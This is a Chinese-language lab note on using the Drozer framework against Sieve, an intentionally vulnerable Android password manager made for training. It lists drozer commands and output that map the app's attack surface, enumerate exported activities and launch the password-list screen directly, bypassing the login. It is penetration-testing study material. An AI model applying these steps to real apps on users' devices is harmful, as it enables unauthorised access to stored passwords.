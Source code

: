 ```yaml
---
title: Test Sieve - activities exported
tags: [Android, Drozer]

category: "Tools/Others/Android Related/Drozer/Test Sieve"
---
```


* Drozer Seive - [官網](https://labs.withsecure.com/tools/drozer#3.1), [Download](https://github.com/WithSecureLabs/drozer/releases/download/2.3.4/sieve.apk)
  > Sieve is a small password manager app created to showcase some of the common vulnerabilities found in Android applications.
    
# Test Sieve - activities exported
參考[^csdn-sieve-1][^hacktricks-diva-sieve]，在測試之前要先點進去Sieve App中設定password和email之類的基本資訊，這樣之後測試才知道哪邊其實是漏洞
1. 起手式-確認基本資訊
    ```bash!
    dz> run app.package.list -f Sieve # 確認該App的package name
    Attempting to run shell module
    com.mwr.example.sieve (Sieve)
    
    dz> run app.package.info -a com.mwr.example.sieve # 確認該App的基本資訊
    Attempting to run shell module
    Package: com.mwr.example.sieve
      Application Label: Sieve
      Process Name: com.mwr.example.sieve
      Version: 1.0
      Data Directory: /data/user/0/com.mwr.example.sieve
      APK Path: /data/app/~~_mRnxjv10ez6OXDQWBrRZw==/com.mwr.example.sieve-yL301IHv87w7debjGy21vA==/base.apk
      UID: 10285
      GID: [3003]
      Shared Libraries: [/system/framework/android.test.base.jar, /system/framework/org.apache.http.legacy.jar]
      Shared User ID: null
      Uses Permissions:
      - android.permission.READ_EXTERNAL_STORAGE
      - android.permission.WRITE_EXTERNAL_STORAGE
      - android.permission.INTERNET
      - android.permission.POST_NOTIFICATIONS
      - android.permission.ACCESS_MEDIA_LOCATION
      - android.permission.READ_MEDIA_AUDIO
      - android.permission.READ_MEDIA_VIDEO
      - android.permission.READ_MEDIA_IMAGES
      Defines Permissions:
      - com.mwr.example.sieve.READ_KEYS
      - com.mwr.example.sieve.WRITE_KEYS
      
    dz> run app.package.manifest com.mwr.example.sieve # 確認該App的manifest有沒有什麼異常或漏洞的提示
    ...
    
    dz> run app.package.attacksurface com.mwr.example.sieve # 確認該App的攻擊面有哪些
    Attempting to run shell module
    Attack Surface:
      3 activities exported
      0 broadcast receivers exported
      2 content providers exported
      2 services exported
        is debuggable
    ```
    看攻擊面的左邊就是該攻擊點有幾個
2. activities exported
    1. 列出exported activities有哪些
        ```bash
        dz> run app.activity.info -a com.mwr.example.sieve
        Attempting to run shell module
        Package: com.mwr.example.sieve
          com.mwr.example.sieve.FileSelectActivity
            Permission: null
          com.mwr.example.sieve.MainLoginActivity
            Permission: null
          com.mwr.example.sieve.PWList
            Permission: null
        ```
    2. 啟動activity
        ```bash
        dz> run app.activity.start --component com.mwr.example.sieve com.mwr.example.sieve.PWList
        ```
        此時會看到手機啟動Sieve App，並且原本應該是需要password才能access的activity，居然可以直接bypass
        ![Screenshot_20240603-163856](https://hackmd.io/_uploads/rkrr-ZsNA.png =200x)
# Reference
[^csdn-sieve-1]:[drozer之玩轉sieve](https://blog.csdn.net/samlirongsheng/article/details/104926282)
[^hacktricks-diva-sieve]:[Drozer Tutorial](https://book.hacktricks.xyz/v/cn/mobile-pentesting/android-app-pentesting/drozer-tutorial)